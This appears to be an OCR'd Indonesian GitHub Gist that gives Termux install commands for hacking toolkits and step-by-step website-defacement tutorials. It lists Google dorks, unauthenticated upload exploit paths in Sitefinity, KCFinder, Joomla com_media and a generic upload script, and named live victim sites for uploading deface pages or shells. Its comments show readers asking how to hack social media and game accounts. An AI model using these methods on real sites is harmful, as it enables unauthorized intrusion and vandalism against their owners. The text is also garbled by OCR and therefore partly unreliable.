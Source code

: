 (`Install Framework Hunner ) $ apt update $ apt install python $ apt install git -y $ git clone https://github.com/b3-v3r/Hunner $ cd Hunner $ chmod 777 hunner.py $ python hunner.py Cara Install Lazymux di Termux $ pkg update && upgrade $ pkg install python2 $ pkg install git $ git clone https://github.com/Gameye98/Lazymux $ cd Lazymux $ chmod +x lazymux.py $ python2 lazymux.py Cara install tools daijobuFungsinya nanti liat sendiri lah di dalem tools nya $apt upgrade && apt update $apt install php $apt install git Kalo udah selesai langsung masukan git nya dengan perintah $git clone https://github.com/alintamvanz/diejoubu $cd diejoubu $ cd v1.2 $php diejoubu.php Hecker RECONDOG apt update apt install python python2 apt install git git clone https://github.com/UltimateHackers/ReconDog cd ReconDog chmod +x dog.py Python2 dog.py DEFACE Hacking Script-Deface $apt update $apt upgrade $apt install git $apt install python2 $git clone https://github.com/Ubaii/script-deface-creator$ls $cd script-deface-creator $ls $chmod +x create.py $ls $python2 create.py done semoga bisa bikin script Html CARA DEFACE Cara1 Siapkan script sendiri.. 1.buka browser kalian apa saja terserah lalu ke google 2.tulis dork nya berikut ini (inurl:"sitefinity/login.aspx) tanpa tanda buka kurung dan tutup kurung! lalu search 3.pilih lah salah satu website terserah kalian,klik website nya lalu tambahkan exploit nya sebagai berikut (sitefinity/usercontrols /dialog/documenteditordialog.aspx) tanpa buka tutup kurung!E http://sitetarget*org/sitefinity/usercontrols/dialogs/documenteditordialog.aspx 4.lalu klik search kembali!nah disana kalian klik choose file dan pilih script deface punya kalian 5 .klik yang di bawah nya tunggu sampai loading selesai 6.tambah link target tadi dengan (/files) contohhttp://sitetarget*org/files/namascriptdefacekalian.html lalu klik search 7.selesai!! Cara2 Method/metode KCFinder Inurl:/kcfinder/browse.php Inurl:/Kcfinder/ Langsung saja upload file deface anda,lalu panggil dengan tambahan /file/namasckamu.html Contoh: https://basukiwater.com/kcfinder/browse.php jadi https://basukiwater.com/file/namasckamu.html cara3 Deface Onion.to File Upload Tutor ini sekarang lagi Ngtreend & Simple , tapi ingat ya bukan Deepweb melaikan Fake Deepweb hehehe... Mari kita Lanjut... Dork : - inurl:/upload site:.onion.to - intext:"Upload" site:.onion.to Live : https://tt3j2x4k5ycaa5zt.onion.to/upload.phpLangkah Demi Langkah : 1. Dorking Dulu 2. Pilih Web Target 3. Pilih File yang mau di'upload 4. Tinggal klik Upload => Done😆Contoh Target : https://tt3j2x4k5ycaa5zt.onion.to/uploads/lopeyou.html https://danwin1210.me/uploads/lopeyou.html https://temp.xn--wda.fr/e719x8JgJ.html Mirror?!😆 https://www.defacer.id/296011.html https://www.defacer.id/296024.html cara4 Metode com media Bahan : 1. Dork : - inurl:com_media site:com - inurl:com_media intext:" Upload" 2. Exploit : /index.php?option=com_media&view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder= 3. Upload'an : Format .txt😁Live Target : http://www.james-insurance.co.uk/ Step by Step : gunakan Live Target dulu untuk Uji Coba😁1. Masukkan dork : inurl:com_media intext:"Upload" site:co.uk 2. Pilih salah satu Web 3. Masukkan Exploit http://www.james-insurance.co.uk/index.php?option=com_media& view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder= 4. Lalu Upload file di tempat upload ( format .txt ) Akses shell ? Tambahkan : /images/namafile.txt contoh : http://www.james-insurance.co.uk/images/fac.txt Nanti Jadi Gini Hasilnyaa.. Mudah Bukan?! Tinggal Upload ke Defacer.id😁cara5 [POC] Kerentanan Kesederhanaan Pengunggahan #Langkah 1: Dork: “Didukung Oleh: © Kesederhanaan Pengunggahan” #Langkah 2: Eksploitasi: http://[situstargetkamu]/PATH/upload.php Tergantung dengan target. #Langkah 3: file yang ditampilkan: gif, jpg, png, txt, php, asp, cgi, zip, exe, mp3, dll (tidak diperbolehkan untuk html) #Langkah 4: Pratinjau: http://[situstargetkamu]/unggah/ [File Anda] #Langkah 5: Demo Langsung: http://www.railfaneurope.net/pix/upload.php http://www.formplas.com/upload/upload.php Nah, saya kira cukup segitu aja kok, karena mudah tuh tutorial nya. Al in one crip termux $ apt update && apt upgrade $ pkg install php figlet ruby ​​python python2 $ pip2 install lolcat $ git clone https://github.com/Rusmana-ID/rus$ cd $ cd rus $ ls $ sh v2.sh Kontak wa 083879017166 Note: user name:Rusmana Pasword:X-One Load komentar sebelumnya... husniawati dikomentari 3 Des 2020 Gak bisa bang apa harus buat file dulu atau gmn semua udah aku ikutin tapi gak bisa Ruok2588 dikomentari 9 Des 2020 Taiklah sya01019 dikomentari 12 Des 2020 Percuma, , Ini siapa punya blog kayak babi sya01019 dikomentari 12 Des 2020 Tampilan aja beda Rasa garam marco97-web dikomentari 22 Des 2020 Password.a ga bisa bang Ilham619 commented on 12 Jan 2021 Bang kasih tau cara ambil akun free fire Reyhan720z commented on 13 Feb 2021 Bg sc fb nya gk work azuhry commented on 5 Mar 2021 gak ada yang work😎 gue bisa Ilham619 commented on 5 Mar 2021 Kode termux untuk hack FB APA Pada tanggal Jum, 5 Mar 2021 01.47, azuhry < notification@github.com > menulis: … @ . * mengomentari inti ini. ------------------------------ gak ada yang berhasil😎gue bisa — Anda menerima ini karena Anda berkomentar. Balas email ini secara langsung, lihat di GitHub < https://Gist.github.com/8d49c6cc91e3ecfcdc8c91d8abdd7450#gistcomment-3653833> , atau berhenti berlangganan < https://github.com/notifications/unsubscribe-auth/ASNZOIQMA54PE3PD5QJV5LLTB7BRLANCNFSM4NBI2DHA> . MR-Bm13 dikomentari 15 Mar 2021 BULLSHIT LOP 28februari2005 dikomentari 11 Mei 2021 Work 100% hmm🤔🤔🤔 28februari2005 dikomentari 11 Mei 2021 Bener work Ya dicoba🤐🤐🤐 28februari2005 dikomentari 11 Mei 2021 Coba aja dulu baru komen jalilcy dikomentari 25 Mei 2021 Bang bisa minta tolong. Ajarkan buat hack fb. Sy ingin mengambil fb sya kena hack kazharalyu